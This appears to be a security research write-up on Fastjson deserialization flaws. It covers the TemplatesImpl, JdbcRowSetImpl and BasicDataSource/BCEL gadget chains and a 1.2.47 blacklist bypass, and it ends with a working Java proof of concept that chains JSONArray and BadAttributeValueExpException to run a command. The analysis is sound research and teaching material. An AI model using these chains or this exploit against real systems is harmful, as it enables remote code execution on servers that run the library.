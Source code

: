 # Fastjson deserialization

## Analysis

In `Fastjson`, when `AutoType` support is enabled, the `JSON.parse()` method deserializes the class specified by `@type` key to a json string, and the `JSON.parseObject()` method deserializes the json string to the class specified by the method parameter.

When creating a class instance, it will call the `setter` and `getter` methods that meet the conditions in the class through reflection. And it is just the source of the vulnerability.

## TemplatesImpl chain

The `getOutputProperties()` method of the `TemplatesImpl` class calls the `newTransformer()`, so it's obvious. However, we need to note that the `Fastjson` does not deserialize private properties by default. Therefore, it is necessary to enable `SupportNonPublicField` support in order to utilize this chain.

## JdbcRowSetImpl chain

The `setAutoCommit()` method of the `JdbcRowSetImpl` class calls the `connect()` method of the `Connection` class. In the `connect()` method, the `InitialContext.lookup()` method is called, which means the JNDI injection. And the `lookup()` method parameter is the `dataSource` field of the `JdbcRowSetImpl` class.

## BasicDataSource chain

The `getConnection()` method of the `BasicDataSource` class calls the `createDataSource()` method and then calls the `createConnectionFactory()` method. In the `createConnectionFactory()` method, `Class.forName(driverClassName, true, driverClassLoader)` method is called to load a driver class, and then the driver class is instantiated. So that the static code block in the class specified by `driverClassName` will be executed. Therefore, we can set the `driverClassLoader` to the BCEL Classloader and set the `driverClassName` to a string of malicious class bytecodes to load it through the BCEL Classloader.

### BCEL Classloader

The BCEL classloader can deserialize bytecodes into a class, which overrides the Java native `ClassLoader.loadClass()` method. In its `loadClass()` method, it first checks if this string of bytecodes starts with the `$$BCEL$$` string, and if so, subsequent bytecodes will be decoded.

## Fastjson-1.2.47

In the `fastjson-1.2.47`, it doesn't just set the whitelist and blacklist to filter the types of deserialized classes. And if the class is in the blacklist, it will lookup the corresponding class from `TypeUtils.mappings` and `deserializers`. However it can be exploited to bypass the whitelist and blacklist.

If the `@type` key is the `Class`, it will be handled through `MiscCodec.deserialze()` and the corresponding value will be the parameter of the `TypeUtils.loadClass()` to be called. In the `loadClass()` method, the value will be added into the `TypeUtils.mappings`.

Therefore, set the value to the evil class name, so that we can load the evil class to bypass the whitelist and blacklist.

## Native deserialization

Native deserialization refers to the use of Java native deserialization `ObjectInputStream.readObject()` as the source to trigger deserialization vulnerabilities.

In `Fastjson`, the `JSONArray` class inherits the Serializable interface, and has a `toString()` method. In that method, the `toJSONString()` method will be called, which in turn triggers the `getter` method of the specified class. Therefore, we can trigger a deserialization vulnerability by calling the `toString()` method of the `JSONArray` class from the `readObject()` method of the `BadAttributeValueExpException` class.

However, starting from `Fastjson-1.2.49`, the `JSONArray` class has implemented the `readObject()` method, which checks the type of the class to be deserialized by calling the `SecureObjectInputStream.resolveClass()` method. Fortunately, due to incorrect coding, deserializing the `Reference` class can bypass the call to the `resolveClass()` method.  At the same time, when adding the same object to the `List`, `Set`, and `Map` classes, the duplicated object will be written as the `Reference` class.

### Code

```java
import com.alibaba.fastjson.JSONArray;
import ysoserial.payloads.util.Gadgets;
import ysoserial.payloads.util.Reflections;

import javax.management.BadAttributeValueExpException;
import java.io.ByteArrayInputStream;
import java.io.ByteArrayOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Field;
import java.util.HashMap;

public class Exp {
    public static void main(String[] args) throws Exception {
        Object template = Gadgets.createTemplatesImpl("calc");

        JSONArray jsonArray = new JSONArray();
        jsonArray.add(template);

        BadAttributeValueExpException badAttributeValueExpException = new BadAttributeValueExpException(null);
        Field declaredField = badAttributeValueExpException.getClass().getDeclaredField("val");
        Reflections.setAccessible(declaredField);
        declaredField.set(badAttributeValueExpException, jsonArray);

        HashMap hashMap = new HashMap();
        hashMap.put(template, badAttributeValueExpException);

        ByteArrayOutputStream byteArrayOutputStream = new ByteArrayOutputStream();
        ObjectOutputStream objectOutputStream = new ObjectOutputStream(byteArrayOutputStream);
        objectOutputStream.writeObject(hashMap);

        ByteArrayInputStream byteArrayInputStream = new ByteArrayInputStream(byteArrayOutputStream.toByteArray());
        ObjectInputStream objectInputStream = new ObjectInputStream(byteArrayInputStream);
        objectInputStream.readObject();
    }
}
```
